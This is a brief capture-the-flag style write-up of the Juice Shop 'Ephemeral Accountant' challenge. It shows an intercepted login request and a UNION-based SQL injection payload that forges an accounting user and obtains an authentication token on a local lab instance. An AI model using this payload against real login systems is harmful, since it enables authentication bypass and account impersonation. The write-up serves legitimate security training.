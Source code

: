 # Ephemeral Accountant

This challenge involves using SQL injection to simulate the login of a non-existent but temporarily created user "acc0unt4nt@juice-sh.op" without actually adding the account to the database permanently.

Using the information of user from the database, we know the `user` has many variable etc. We use it to inject the login page. Open your intercept and write anything on email/password section. 

As we get the typical HTTP POST request

```bash
POST /rest/user/login HTTP/1.1
Host: 127.0.0.1:3000
Content-Type: application/json

{
  "email": "user@example.com",
  "password": "password123"
}
```
Change email using UNION and the variable to mimic the user a legitimate user. 

```bash
{
  "email": "' UNION SELECT * FROM (SELECT 20 AS `id`, 'acc0unt4nt@juice-sh.op' AS `username`, 'acc0unt4nt@juice-sh.op' AS `email`, 'test1234' AS `password`, 'accounting' AS `role`, '123' AS `deluxeToken`, '1.2.3.4' AS `lastLoginIp`, '/assets/public/images/uploads/default.svg' AS `profileImage`, '' AS `totpSecret`, 1 AS `isActive`, 12983283 AS `createdAt`, 133424 AS `updatedAt`, NULL AS `deletedAt`) AS tmp WHERE '1'='1';--",
  "password": "test1234"
}
```

![alt text](<Screenshot (22).png>)

As you can see we got authentication token means we already succed to solved the challenge.

![alt text](<Screenshot (23).png>)